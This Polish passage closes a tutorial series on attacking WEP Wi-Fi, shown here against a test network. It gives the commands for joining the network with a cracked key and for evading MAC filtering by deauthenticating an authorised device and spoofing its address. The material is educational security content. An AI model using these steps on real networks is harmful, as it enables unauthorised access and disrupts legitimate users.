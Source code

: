 ### 6. Podłączenie się do sieci

W tym miejscu w zależności od tego, czy w sieci wdrożono filtrowanie adresów MAC czy też nie, możliwe są 2 scenariusze.

1. Jeżeli dopuszczone jest podłączenie dowolnego urządzenia, aby nawiązać połączenie, wystarczy użyć następującego zestawu poleceń:

    ```console
    adam@debian:~# airmon-ng stop mon0
    adam@debian:~# iwconfig wlan1 essid WEP-test key s:TestoweHaslo1
    adam@debian:~# iwconfig wlan1
    wlan1 IEEE 802.11bgn ESSID:"WEP-test"

    Mode:Managed Access Point: 5C:4C:A9:6B:EC:CD
    Bit Rate=54 Mb/s Tx-Power=20 dBm
    Retry long limit:7 RTS thr:off Fragment thr:off
    Encryption key:5465-7374-6F77-6548-6173-6C6F-31
    Power Management:on
    Link Quality=67/70 Signal level=-43 dBm
    Rx invalid nwid:0 Rx invalid crypt:0 Rx invalid frag:0
    Tx excessive retries:687 Invalid misc:693 Missed beacon:0

    adam@debian:~# dhclient wlan1
    adam@debian:~# ifconfig wlan1
    wlan1 Link encap:Ethernet HWaddr 90:f6:52:16:63:23

    inet addr:192.168.202.39 Bcast:192.168.202.63 Mask:255.255.255.192
    inet6 addr: fe80::92f6:52ff:fe16:6323/64 Scope:Link
    UP BROADCAST RUNNING MULTICAST TMU:1500 Metric:1
    RX packets:18 errors:0 dropped:0 overruns:0 frame:0
    TX packets:25 errors:0 dropped:0 overrruns:0 carrier:0
    collisions:0 txqueuelen:1000
    RX bytes:2440 (2.3 KiB) Tx bytes:5421 (5.2 KiB)
    ```

    Jeżeli zaś wdrożono filtrowanie MAC, konieczna jest znajomość dopuszczalnego adresu. Nasłuchując komunikacji w sieci przy pomocy polecenia airodump-ng, można znaleźć autoryzowane urządzenie. Po odłączeniu go od sieci, należy zmienić swój adres MAC na taki, który jest autoryzowany i wykonać powyższe kroki.

    Zmiana adresu MAC jest możliwa przy pomocy następującego zestawu poleceń:

    ```console
    adam@debian:~# ifconfig wlan1 down
    adam@debian:~# ifconfig wlan1 hw ether USTAWIANY_MAC
    adam@debian:~# ifconfig wlan1 up
    ```

## Podsumowanie

W tej części cyklu przedstawiłem mechanizm działania WEP, a także jego wpływ na bezpieczeństwo użytkowników sieci. Przedstawiony mechanizm ataku pokazuje, jak poważny jest problem, ponieważ nie ma możliwości naprawy błędów popełnionych przy projektowaniu WEP. W tekście omówiłem krok po kroku podstawowy atak, jednak mogą pojawić się sytuacje, w których nie będzie możliwości jego zastosowania.
